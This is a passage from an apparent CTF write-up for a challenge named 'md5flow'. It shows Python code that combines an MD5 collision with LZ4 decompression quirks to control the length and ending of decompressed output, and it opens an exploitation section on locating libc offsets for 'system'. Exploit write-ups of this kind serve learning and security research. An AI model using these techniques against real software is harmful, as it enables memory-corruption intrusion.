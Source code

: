 Due to the `f` in `matchlength`, LZ4 expects another byte for `matchlength` after `offset`.
We can harness this to construct a suffix `s` for `c1` and `c2` such that `len(decompress(c1+s)) <= 0x100`
and the length and end of `decompress(c2+s)` can be chosen freely (within a sufficient range).
The suffix of `decompress(c2+s)` is also controlled.
Recall that if `md5(c1) = md5(c2)`, `len(c1) = len(c2)` and `len(c1) % 64 = 0`, then
`md5(c1+s) = md5(c2+s)` for all `s`.
```py
def make_suffix(length, end):
  # compute length of next literal
  L = length - 150
  for i in (0, 1):
    l0 = (L - i * 0x10) & 0xf0
    l1 = (l0 >> 4) - 1
    pad = L - l0 - l1
    if pad >= 0:
      break
  assert pad >= 0
  
  s = bytearray(
    [1, 0,     # offset
     l0,       # length of next literal in c1, second matchlength byte in c2
     l0 - 0x10 # literal byte in c1, length of next literal in c2
     ] + [0x42] * l1 + [1, 0]) # remaining literal bytes and offset in c1 and c2

  # pad to `length` and append `end`
  rem = pad + len(end)
  assert rem >= 5
  s.append((l2 := min(0xf, rem)) << 4)
  rem -= l2
  if l2 == 0xf:
    s.append(rem)
    assert rem < 0x100

  s.extend(b'C' * pad)
  s.extend(end)

  s = bytes(s)
  assert len(c1 + s) <= 0xc0
  assert len(decompress(c1 + s)) < 0x100
  assert len(x := decompress(c2 + s)) - len(end) == length
  assert x.endswith(end)
  return s
```

## Exploitation

For debugging, we copy the libraries from the `ubuntu:18.04` docker image and 
run `md5flow` with `process(['./ld-2.27.so', '--library-path', '.', './md5flow'], aslr=False)`
We could also determine the exact libc version using the [libc database](https://libc.blukat.me/?q=read%3A180%2Csystem%3A4e0&l=libc6_2.27-3ubuntu1.2_amd64)
and extracting symbol offsets from the supplied libc.
